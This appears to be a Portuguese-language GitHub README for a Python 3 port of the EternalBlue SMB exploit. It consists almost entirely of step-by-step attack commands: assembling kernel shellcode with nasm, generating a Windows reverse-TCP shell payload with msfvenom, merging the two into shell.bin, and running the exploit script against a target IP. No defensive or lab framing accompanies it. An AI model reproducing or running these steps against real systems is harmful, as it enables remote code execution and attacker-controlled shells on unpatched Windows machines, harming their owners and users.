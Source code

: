 # EternalBlue com Python3

##

### 1. Clonando o repositorio:

```
git clone https://github.com/hasecto/eternalblue_python3.git
```

## 2. Compilando o shellcode:

### x64

```
nasm -f bin shellcode/eternalblue_x64.asm -o ./sc_x64_kernel.bin
```

### x86

```
nasm -f bin shellcode/eternalblue_x86.asm -o ./sc_x86_kernel.bin
```

## 3. Criando o payload:

### x64

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=IP --platform windows -a x64 --format raw -o sc_x64_payload.bin
```

### x86

```
msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=IP --platform windows -a x86 --format raw -o sc_x86_payload.bin
```

### Fazendo o Merge dos arquivos:

```
cat sc_x64_kernel.bin sc_x64_payload.bin > shell.bin
```


## 4. Exploit:

```
python3 eternalblue.py Alvo-IP shell.bin
```


